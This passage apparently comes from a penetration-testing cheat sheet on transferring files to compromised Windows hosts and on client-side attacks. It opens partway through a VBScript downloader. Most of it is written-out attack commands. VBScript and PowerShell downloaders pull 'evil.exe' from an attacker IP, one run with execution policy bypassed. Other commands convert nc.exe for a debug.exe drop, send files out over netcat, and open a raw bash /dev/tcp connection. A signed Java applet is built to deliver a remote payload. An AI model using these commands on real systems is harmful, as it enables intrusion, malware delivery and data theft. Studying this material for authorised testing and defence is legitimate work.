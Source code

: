         echo http.Send >> wget.vbs
        echo varByteArray = http.ResponseBody >> wget.vbs
        echo Set http = Nothing >> wget.vbs
        echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
        echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
        echo strData = "" >> wget.vbs
        echo strBuffer = "" >> wget.vbs
        echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
        echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
        echo Next >> wget.vbs
        echo ts.Close >> wget.vbs

        C:\Users\Offsec>cscript wget.vbs http://10.11.0.187/evil.exe evil.exe
        ```

    * PowerShell
        ```
        echo $storageDir = $pwd > wget.ps1
        echo $webclient = New-Object System.Net.WebClient >>wget.ps1
        echo $url = "http://10.11.0.187/evil.exe" >>wget.ps1
        echo $file = "new-exploit.exe" >>wget.ps1
        echo $webclient.DownloadFile($url,$file) >>wget.ps1
        powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
        ```

    * debug.exe (win32, 64kb max)
        ```
        upx -9 nc.exe

        cp /usr/share/windows-binaries/exe2bat.exe .
        wine exe2bat.exe nc.exe nc.txt
        ```

    * netcat + base64
        ```
        A: nc -lp 7777 > file.zip.base64
        B: cat file.zip | base64 | nc $ip 7777
        A: certutil -decode file.zip.base64 file.zip
        ```

    * bash
        ```
        exec 3<>/dev/tcp/31.133.0.26/80; echo -en 'GET / HTTP/1.1\r\nHost: gynvael.coldwind.pl\r\n\r\n' >&3; cat <&3
        ```

#### #Client side
    * java applets
    ```
    #compile
    $ javac -source 1.7 -target 1.7 Java.java
    $ echo "Permissions: all-permissions" > ./manifest.txt
    $ jar cvf Java.jar Java.class
    $ keytool -genkey -keyalg rsa -alias MyCert
    $ jarsigner Java.jar MyCert -signedjar SignedJava.jar 
    $ mv SignedJava.jar Java.class /var/ww/html/
    $ echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://10.11.0.187:80/evil.exe"></applet>' > /var/www/html/java.html
    ```
